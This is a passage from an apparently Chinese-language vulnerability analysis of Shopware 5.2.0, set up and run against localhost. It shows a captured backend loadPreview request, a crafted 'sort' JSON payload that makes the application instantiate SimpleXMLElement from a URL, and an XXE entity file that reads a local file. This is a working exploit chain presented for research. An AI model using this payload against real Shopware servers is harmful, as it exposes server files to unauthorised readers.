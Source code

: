 当我们点击 **Refresh preview** 按钮时，就会调用 **loadPreviewAction** 方法，用BurpSuite抓到包如下：

```http
GET /shopware520/backend/ProductStream/loadPreview?_dc=1530963660916&sort={"Shopware\\Bundle\\SearchBundle\\Sorting\\PriceSorting":{"direction":"asc"}}&conditions={}&shopId=1&currencyId=1&customerGroupKey=EK&page=1&start=0&limit=2 HTTP/1.1
Host: localhost
X-CSRF-Token: IKiwilE7pecuIUmEAJigyg6fVXY6vR
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: */*
Referer: http://localhost/shopware520/backend/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SHOPWAREBACKEND=78ghtddjn8n8efpv1cudj6eao0; KCFINDER_showname=on; KCFINDER_showsize=off; KCFINDER_showtime=off; KCFINDER_order=name; KCFINDER_orderDesc=off; KCFINDER_view=thumbs; KCFINDER_displaySettings=off; goods[cart]=180615151154565652; XDEBUG_SESSION=PHPSTORM
Connection: close
```

我们可以看到 **sort** 值为 `{"Shopware\\Bundle\\SearchBundle\\Sorting\\PriceSorting":{"direction":"asc"}}` ,于是我们按照其格式构造payload： `{"SimpleXMLElement":{"data":"http://localhost/xxe.xml","options":2,"data_is_url":1,"ns":"","is_prefix":0}}` ，关于payload的含义，可以看看 **SimpleXMLElement** 类的 **__construct** 函数定义，具体点 [这里](http://php.net/manual/zh/simplexmlelement.construct.php) 

```php
final public SimpleXMLElement::__construct ( string $data [, int $options = 0 [, bool $data_is_url = FALSE [, string $ns = "" [, bool $is_prefix = FALSE ]]]] )
```

笔者所用的xxe.xml内容如下：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE ANY [ 
     <!ENTITY xxe SYSTEM "file:///C:/phpStudy/PHPTutorial/WWW/flag.txt">
]>
<x>&xxe;</x>
```

我们发送payload，并用xdebug调试程序，最后程序将我们读取的值存储在 **$conditions** 变量中，如下图所示：

![8](8.png)
